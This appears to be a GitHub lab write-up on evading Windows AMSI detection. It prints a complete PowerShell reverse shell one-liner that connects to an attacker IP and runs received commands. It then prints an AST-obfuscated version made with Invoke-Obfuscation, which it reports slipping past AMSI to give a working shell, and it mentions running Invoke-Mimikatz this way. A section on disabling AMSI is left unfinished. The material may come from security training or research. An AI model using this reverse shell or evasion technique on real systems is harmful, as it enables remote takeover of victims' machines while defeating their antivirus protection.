

### Test 1 : Obfuscation of commands

First, it was verified that the following powershell reverse shell command would be detected by AMSI.

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.50.18',9999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

As shown in the screenshot below, AMSI managed to detect the command as malicious and blocked it.



To obfuscate the command, the tool **Invoke Obfuscation** (https://github.com/danielbohannon/Invoke-Obfuscation) was used. 

After setting the "ScriptBlock" as our reverse shell command, we have the option to choose an encoding option


We discovered through testing and research that the most effective obfuscation method is **AST**. The regular encoding options, which include encoding the command in ASCII, Binary, and the encryption of the entire command as SecureString, all seem to get detected by AMSI pretty easily.

After encoding with the AST option, we get the following output : 

```
Set-Variable -Name client -Value (New-Object System.Net.Sockets.TCPClient('192.168.25.134',4444));Set-Variable -Name stream -Value ($client.GetStream());[byte[]]$bytes = 0..65535|%{0};while((Set-Variable -Name i -Value ($stream.Read($bytes, 0, $bytes.Length))) -ne 0){;Set-Variable -Name data -Value ((New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i));Set-Variable -Name sendback -Value (iex $data 2>&1 | Out-String );Set-Variable -Name sendback2 -Value ($sendback + 'PS ' + (pwd).Path + '> ');Set-Variable -Name sendbyte -Value (([text.encoding]::ASCII).GetBytes($sendback2));$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()  
```

After executing the command on the victim machine, we can see that it did not get detected/blocked by AMSI : 


Back in our attacker machine (kali), we can verify that the reverse shell connection was successful.


However, this method would not be very helpful if the attacker had to run multiple commands. That would mean each command would have to be repeatedly encoded using the Invoke-Obfuscation tool. Thus, this method is better if used to execute one command only (e.g Invoke-Mimikatz)

The better option would be disabling AMSI entirely.

--- 

### Test 2 : Disabling AMSI - Reflection method (To-Do)


